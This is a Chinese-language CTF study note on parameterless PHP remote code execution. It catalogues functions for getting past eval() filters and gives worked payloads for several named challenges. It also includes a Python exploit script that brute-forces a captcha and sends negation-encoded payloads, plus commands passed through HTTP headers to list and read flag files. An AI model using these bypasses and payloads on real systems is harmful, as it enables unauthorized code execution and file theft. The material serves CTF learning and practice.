

## 无参数RCE

> 正常来说有`eval($_GET['a'])`就可以直接getshell了,但是无参数RCE在eval前添加了大量的过滤,不能直接getshell,需要手动进行构造

无参数说明只允许执行这个格式的函数`a(b(c()))`,不能包含参数

但是可以利用php中的多个特殊函数来绕过无参数的限制

### 数据获取

1. `getenv`获取php的全局变量

```
array(31) {
  ["SHELL"]=>
  string(9) "/bin/bash"
  ["COLORTERM"]=>
  string(9) "truecolor"
  ["TERM_PROGRAM_VERSION"]=>
  string(6) "1.55.1"
  ["HOSTNAME"]=>
  string(12) "fface764cb0a"
  ["PHP_VERSION"]=>
  string(6) "7.4.16"
  ["APACHE_CONFDIR"]=>
  string(12) "/etc/apache2"
  ["PHP_INI_DIR"]=>
  string(18) "/usr/local/etc/php"
  ["GPG_KEYS"]=>
  string(81) "42670A7FE4D0441C8E4632349E4FDC074A4EF02D 5A52880781F755608BF815FC910DEB46F53EA312"
  ["REMOTE_CONTAINERS_IPC"]=>
  string(79) "/tmp/vscode-remote-containers-ipc-ea63dd31c4333088abb9783b645c2d35e4a5e37b.sock"
  ["PHP_LDFLAGS"]=>
  string(12) "-Wl,-O1 -pie"
  ["PWD"]=>
  string(13) "/var/www/html"
  ["HOME"]=>
  string(5) "/root"
  ["LANG"]=>
  string(11) "en_US.UTF-8"
  ["REMOTE_CONTAINERS"]=>
  string(4) "true"
  ["PHP_SHA256"]=>
  string(64) "1c16cefaf88ded4c92eed6a8a41eb682bb2ef42429deb55f1c4ba159053fb98b"
  ["PHPIZE_DEPS"]=>
  string(76) "autoconf          dpkg-dev                file            g++             gcc             libc-dev             make            pkg-config              re2c"
  ["TERM"]=>
  string(14) "xterm-256color"
  ["REMOTE_CONTAINERS_SOCKETS"]=>
  string(2) "[]"
  ["PHP_URL"]=>
  string(51) "https://www.php.net/distributions/php-7.4.16.tar.xz"
  ["PHP_EXTRA_CONFIGURE_ARGS"]=>
  string(26) "--with-apxs2 --disable-cgi"
  ["SHLVL"]=>
  string(1) "1"
  ["PHP_CFLAGS"]=>
  string(83) "-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64"
  ["APACHE_ENVVARS"]=>
  string(20) "/etc/apache2/envvars"
  ["BROWSER"]=>
  string(88) "/root/.vscode-server/bin/08a217c4d27a02a5bcde898fd7981bda5b49391b/bin/helpers/browser.sh"
  ["PATH"]=>
  string(130) "/root/.vscode-server/bin/08a217c4d27a02a5bcde898fd7981bda5b49391b/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
  ["PHP_EXTRA_BUILD_DEPS"]=>
  string(11) "apache2-dev"
  ["PHP_ASC_URL"]=>
  string(55) "https://www.php.net/distributions/php-7.4.16.tar.xz.asc"
  ["PHP_CPPFLAGS"]=>
  string(83) "-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64"
  ["TERM_PROGRAM"]=>
  string(6) "vscode"
  ["VSCODE_IPC_HOOK_CLI"]=>
  string(57) "/tmp/vscode-ipc-3602487c-e93c-4eb2-86c0-5446580458b3.sock"
  ["_"]=>
  string(18) "/usr/local/bin/php"
}
```

2. `getallheaders()`获取全部HTTP请求头信息

`array(8) {  ["Host"]=>  string(9) "127.0.0.1"  ["User-Agent"]=>  string(68) "Mozilla/5.0 (X11; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0"  ["Accept"]=>  string(74) "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8"  ["Accept-Language"]=>  string(59) "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2"  ["Accept-Encoding"]=>  string(13) "gzip, deflate"  ["DNT"]=>  string(1) "1"  ["Connection"]=>  string(10) "keep-alive"  ["Upgrade-Insecure-Requests"]=>  string(1) "1" }`

因此,可以通过burp或者hackbar添加一个特殊的HTTP请求头信息,从而进行RCE



3. `get_defined_vars()`返回由所有已定义变量所组成的数组

`array(4) {  ["_GET"]=>  array(0) {  }  ["_POST"]=>  array(0) {  }  ["_COOKIE"]=>  array(0) {  }  ["_FILES"]=>  array(0) {  } }`

传入参数`asdf=phpinfo();`

`array(4) {  ["_GET"]=>  array(1) {    ["asdf"]=>    string(10) "phpinfo();"  }  ["_POST"]=>  array(0) {  }  ["_COOKIE"]=>  array(0) {  }  ["_FILES"]=>  array(0) {  } }`

`_FILES`可以用requests库上传

4. `session_id()`获取当前会话ID

我用`session_id(session_start())`一直跑不出来...我菜炸了

5. `getcwd()`获取当前目录
6. `phpversion()`返回php版本
7. `localeconv()`返回一包含本地数字及货币格式信息的数组,数组第一项是 `.`
8. `localtime()`返回一个数组,秒在第一位,可以通过读取秒数转化为字符来构造`.`

### 数据处理

1. `array_rand`可以随机返回数组中的一个键名

```php
<?php
	$a=array(".","..",".git","flag.php","index.php");
	$random_keys=array_rand($a);
	echo $random_keys;
	echo $a[$random_keys];
?>
```

2. `array_flip`可以反转/交换数组中所有的键名以及它们关联的键值

```php
<?php
    $a=getenv();
    $a=array_flip($a);
    var_dump(array_rand($a));
?>
```

3. `array_reverser`数组反转
4. `current`返回数组中的当前单元,`pos`是`current`的别名
5. `end`将内部指针指向数组中的最后一个元素,并返回该元素的值
6. `floor`舍去取整`floor(phpversion())=7`
7. `ceil`进一取整`ceil(phpversion())=8`
8. `sqrt`开平方
9. `dirname()`返回父级目录
10. `chdir()`改变当前目录,相当于`cd`,执行成功之后不会返回当前目录,只会返回`1`
11. `scandir()`遍历当前目录

### 生成`.`

1. `chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))`
2. `current(localeconv())`
3. `chr(pos(localtime(time())))`当秒数为46时生成`.`
4. `chr(ord(hebrevc(crypt(phpversion()))))`有概率生成`.`
5. `chr(ord(strrev(crypt(serialize(array())))))`有概率生成`/`或者`.`
6. `chr(ord(hebrevc(crypt(time()))))`有概率生成`.`
7. `next(str_split(strval(cos(fclose(tmpfile())))))`
8. `next(str_split(strval(tan(fclose(tmpfile())))))`

### 文件读取

1. `file_get_contents`
2. `highlight_file`
3. `show_source`
4. `readfile`别名`readgzfile`
5. `file`把整个文件读入一个数组中

### 例题

#### [GXYCTF2019]禁止套娃

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

1. 首先对当前目录进行扫描,正常来说直接用`getcwd()`就可以直接获取当前目录,但是题目过滤了`et`字符,因此需要特殊构造

`localeconv`函数返回一包含本地数字及货币格式信息的数组,关键在于其第一个元素是小数点,因此可以构造`var_dump(scandir(current(localeconv())));`来读取当前目录

返回如下数据`array(5) {  [0]=>  string(1) "."  [1]=>  string(2) ".."  [2]=>  string(4) ".git"  [3]=>  string(8) "flag.php"  [4]=>  string(9) "index.php" }`

2. 想办法对`flag.php`进行读取

首先`file_get_contents`因为关键词`et`已经被过滤,可以使用`highlight_file`或者`show_source`或者`readfile()`进行代替

使用`array_rand`可以随机返回数组中的一个键名

```php
<?php
$a=array(".","..",".git","flag.php","index.php");
$random_keys=array_rand($a);
echo $random_keys;
echo $a[$random_keys];
?>
```

但是只使用键名不能直接读取`flag.php`,而`array_flip`可以反转/交换数组中所有的键名以及它们关联的键值

```php
<?php
$a=array(".","..",".git","flag.php","index.php");
$a=array_flip($a);
$random_keys=array_rand($a);
echo $random_keys;
?>
```

由此可以读取到`flag.php`

payload`highlight_file(array_rand(array_flip(scandir(current(localeconv())))));`

刷新多几次即可getflag`flag{f5ec0db8-27cb-47f7-8793-05b69a033364}`

---

我用`session_id(session_start())`一直跑不出来...我菜炸了

#### [2019上海市大学生网络安全大赛]decade

```php
<?php
highlight_file(__FILE__);
$code = $_GET['code'];
if (!empty($code)) {
        if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
            if (preg_match('/readfile|if|time|local|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
                    echo 'bye~';
                } else {
                    eval($code);
                }
            }
        else {
            echo "No way!!!";
        }
}
else {
        echo "No way!!!";
}
?>
```

`chr(ord(hebrevc(crypt(phpversion()))))`得到`.`

`scandir`扫描当前目录

`chdir(next())`返回父级目录

`scandir(chr(ord(hebrevc(crypt(phpversion(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))`扫描父级目录

`echo(next(file(end(scandir(chr(ord(hebrevc(crypt(phpversion(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))))));`getflag

#### [极客大挑战 2020]Roamphp4-Rceme

```php
<?php
error_reporting(0);
session_start();
if(!isset($_SESSION['code'])){
    $_SESSION['code'] = substr(md5(mt_rand().sha1(mt_rand)),0,5);
}

if(isset($_POST['cmd']) and isset($_POST['code'])){

    if(substr(md5($_POST['code']),0,5) !== $_SESSION['code']){
        die('<script>alert(\'Captcha error~\');history.back()</script>');
    }
    $_SESSION['code'] = substr(md5(mt_rand().sha1(mt_rand)),0,5);
    $code = $_POST['cmd'];
    if(strlen($code) > 70 or preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/ixm',$code)){
        die('<script>alert(\'Longlone not like you~\');history.back()</script>');
    }else if(';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $code)){
        @eval($code);
        die();
    }
}
?>
```

`~`没有被过滤,以 `[~已取反函数名的URLencode][!%ff]()` 的形式组成函数

```python
import requests
import hashlib

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}


def getcode(md5code):
    for i in range(10000000):
        if hashlib.md5(str(i).encode('utf-8')).hexdigest()[0:5] == md5code:
            return str(i)


def urlencode(s):
    url = ""
    for i in s:
        url += "%" + str(hex(0xff - ord(i)))[2:].upper()
    return "[~" + url + "][!%FF]("


shell = input().strip(")")
shell = shell.strip("(")
shell = shell.split("(")
cmd = ""
for i in shell:
    cmd += urlencode(i)
cmd += ")" * len(shell)
cmd += ";"
print(cmd)

url = 'http://4a811242-6a11-4301-aa07-5c3288bf2b5a.node3.buuoj.cn/'
r = requests.get(url=url)
md5code = r.text[r.text.index("substr(md5($code),0,5)==") + len("substr(md5($code),0,5)=="):r.text.index("substr(md5($code),0,5)==") + len("substr(md5($code),0,5)==") + 5]
code = getcode(md5code)
print(code)
cookie = r.headers["Set-Cookie"][:43]
headers = {"Cookie": cookie}

r = requests.post(url=url, data={"cmd": cmd, "code": code}, proxies=proxies, headers=headers)  # cmd被自动urlencode,需要在burp中对cmd进行一次urldecode
print(r.text)
```

`var_dump(scandir(current(localeconv())))`得到`[~%89%9E%8D%A0%9B%8A%92%8F][!%FF]([~%8C%9C%9E%91%9B%96%8D][!%FF]([~%9C%8A%8D%8D%9A%91%8B][!%FF]([~%93%90%9C%9E%93%9A%9C%90%91%89][!%FF]())));`

返回

```
array(8) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(14) ".index.php.swp"
  [3]=>
  string(8) "ZWdn.png"
  [4]=>
  string(3) "css"
  [5]=>
  string(6) "images"
  [6]=>
  string(9) "index.php"
  [7]=>
  string(2) "js"
}
```

没有与flag有关的文件,需要进行搜索,尝试通过`getallheaders()`获取全部HTTP请求头信息进而构造搜索flag的shell

`headers`修改为`headers = {"Cookie": cookie, "Z": "find /* | grep flag"}`

`system(end(getallheaders()))`没有找到flag相关文件

`headers`修改为`headers = {"Cookie": cookie, "Z": "ls /"}`

`system(end(getallheaders()))`发现flag为`/flll1114gggggg`

`headers`修改为`headers = {"Cookie": cookie, "Z": "cat /flll1114gggggg"}`

`system(end(getallheaders()))`读取flag为`flag{694ce355-249a-40dd-94cd-5e4919325ac2}`

#### [ByteCTF]BoringCode

```php
<?php
if ($_POST['code']){
    $code = $_POST['code'];
    if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
        if (preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
            echo 'bye~';
        } else {
            eval($code);
        }
    }else{
        echo "No No No";
    }
}
?>
```

> `code.php`在`www/code/code.php`,`flag`在`www/flag`

`current(localeconv())`得到`.`

`chdir(next(scandir(pos(localeconv()))));`切换到父级目录

`chr(ord(strrev(crypt(serialize(array(chdir(next(scandir(pos(localeconv()))))))))))`获取父级目录

`echo(readfile(end(scandir(chr(ord(strrev(crypt(serialize(array(chdir(next(scandir(pos(localeconv()))))))))))))));`getflag

---

`chdir(next(scandir(pos(localeconv()))))`切换到父级目录,成功则返回`1`

因此,如果切换成功则对父级目录进行读取

`if(chdir(next(scandir(pos(localeconv())))))readfile(end(scandir(pos(localeconv()))));`

### fuzz脚本

```php
<?php
#var_dump(get_defined_functions()["internal"]);
$func = array();
$j = 0;
for ($i = 0; $i < count(get_defined_functions()["internal"]); $i++) {
    if (!preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', get_defined_functions()["internal"][$i])) {
        $func[$j] = get_defined_functions()["internal"][$i];
        $j++;
    }
}
#print_r($func);
$a = ['getenv', 'getallheaders', 'get_defined_vars', 'session_id', 'getcwd', 'phpversion', 'localeconv', 'time', 'localtime', 'array_rand', 'array_flip', 'array_reverser', 'current', 'pos', 'end', 'floor', 'ceil', 'sqrt', 'dirname', 'chdir', 'scandir', 'system', 'sin', 'cos', 'tan', 'sinh', 'cosh', 'tanh', 'next', 'chr', 'ord', 'str_split', 'strval', 'fclose', 'tmpfile', 'file_get_contents', 'highlight_file', 'show_source', 'readfile', 'readgzfile', 'file', 'hebrevc', 'crypt', 'serialize', 'array'];
#print_r($a);
for ($i = 0; $i < count($func); $i++) {
    for ($j = 0; $j < count($a); $j++) {
        if ($a[$j] == $func[$i]) {
            var_dump($a[$j]);
        }
    }
}
```